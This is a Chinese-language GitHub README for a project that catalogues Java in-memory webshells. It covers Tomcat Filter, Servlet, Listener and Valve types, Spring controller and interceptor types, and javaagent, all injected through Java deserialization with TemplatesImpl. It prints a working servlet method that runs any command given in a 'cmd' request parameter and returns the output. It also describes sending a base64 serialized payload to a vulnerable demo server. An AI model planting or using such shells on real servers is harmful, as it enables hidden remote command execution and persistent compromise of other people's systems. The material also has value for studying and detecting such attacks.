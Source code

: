 ## JavaMemShell
记录总结Java内存马的类型和相关代码示例

## 项目说明

**JavaMemShell**

利用Java反序列化时TemplatesImpl类加载字节码实现的内存马示例

**JavaMemShell-Web**

Spring 5.2.3 和Tomcat8服务端的Demo，接受参数进行反序列化，整理后上传。

## Java内存马类型

**tomcat** 

1. Filter型
2. Servlet型
3. Listener型
4. TomcatValue型

**spring**

1. controller型
2. Interceptor型

**javaagent**

1. 文件落地，持久化

## 核心代码

每种类型shell动态注册的执行逻辑在静态代码块中，由于反序列化需要，实现类需要继承`AbstractTranslet`

```java
static {
        try{
            xxx
        }catch (Exception e){
            e.printStackTrace();
        }
    }
```

获取request和response，执行命令并进行回显的逻辑在 `doFilter`，`requestDestroyed` ，`service`等方法中，如有需要自行替换，示例：

```java
public void service(ServletRequest servletRequest, ServletResponse servletResponse) 
                        throws ServletException, IOException {
        HttpServletRequest request = (HttpServletRequest)servletRequest;
        HttpServletResponse response =  (HttpServletResponse)servletResponse;

        String method = request.getMethod();
        if ("GET".equals(method)){
            String cmd = request.getParameter("cmd");
            if (cmd != null){
                Process process = Runtime.getRuntime().exec(cmd);
                Scanner s = new Scanner(process.getInputStream()).useDelimiter("\\a");;
                String output = s.hasNext() ? s.next() : "";
                PrintWriter writer = response.getWriter();
                writer.write(output);
                writer.flush();
                writer.close();
            }
        }
    }
```

## 测试

以springInterceptor内存代码为例，将生成序列化的base64代码发送到服务端

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653798985180-c6672740-00d3-4389-85d9-0e4f73cacb74.png)

执行命令：

![img](https://cdn.nlark.com/yuque/0/2022/png/21878686/1653799203090-f9ad191f-288d-4ecb-8a6d-6fdd0591405e.png)

